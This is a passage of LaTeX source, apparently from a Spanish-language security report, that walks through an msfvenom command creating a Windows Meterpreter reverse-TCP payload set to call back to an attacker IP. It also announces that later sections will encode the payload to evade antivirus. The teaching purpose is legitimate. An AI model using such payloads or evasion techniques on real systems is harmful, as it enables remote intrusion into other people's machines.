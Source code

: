 \documentclass[12pt]{article}
\newcommand{\newpar} {
    \vskip 0.5cm
}
\begin{document}
                Con esto en mente debemos alterar la salida que nos ofrece \texttt{MSFVENOM} a través de sus opciones para generer el \textit{payload} deseado. Con el fin de ocultar la complejidad de usar la herramienta directamente hemos escrito un script de bash (la shell por defecto de Kali y otras muchas distribuciones) que se encarga de esto por nosotros. El script en cuestión es \texttt{gen\_payload.sh}. No obstante, adjuntamos una invocación de ejemplo de MSFVENOM para comentar qué efecto tiene cada una de sus opciones:

                \begin{center}
                    \texttt{msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse\_tcp LHOST=192.168.1.2 LPORT=5000 -f exe -o win\_pyld.exe}
                \end{center}
                

                Con lo anterior estamos generando el \textit{payload} \texttt{win\_pyld.exe}. La arquitectura y plataforma de este programa vienen dadas por las opciones \texttt{-a} y \texttt{--platform} respectivamente. Consultando los valores pasados vemos que se trata de una máquina que ejecuta la versión de 64 bits de Windows. Asimismo, el tipo de \textit{payload} seleccionado es \texttt{windows/x64/meterpreter/reverse\_tcp}. En la siguiente sección comentaremos el funcionamiento de la misma. Dado el \textit{payload} escogido debemos pasar dos opciones que se introducirán en el código del mismo. En este caso son la IP (\texttt{LHOST}) y el puerto (\texttt{LPORT}) de la máquina atacante. En secciones subsiguientes estudiaremos por qué son necesarias estas opciones. Finalmente especificamos el formato del \textit{payload} generado con la opción \texttt{-f}. Dado que el formato estándar de los archivos ejecutables en Windows. Este archivo generado tendrá, además del programa propiamente dicho, las instrucciones necesarias para que el loader de Windows lo cargue correctamente.

                \newpar

                Como ya comentamos anteriormente, uno de los mecanismos más comunes para detectar malware es la comparación de archivos sospechosos con firmas almacenadas en bases de datos que se han asociado a algún archivo malicioso. Con la orden anterior hemos generado el \textit{payload} sin intentar ocultarlo de ninguna manera. Más adelante comentaremos como, a través de un proceso denominado codificación, podemos intentar ocultar este programa malicioso para así inhibir o al menos dificultar el trabajo de los antivirus.
\end{document}
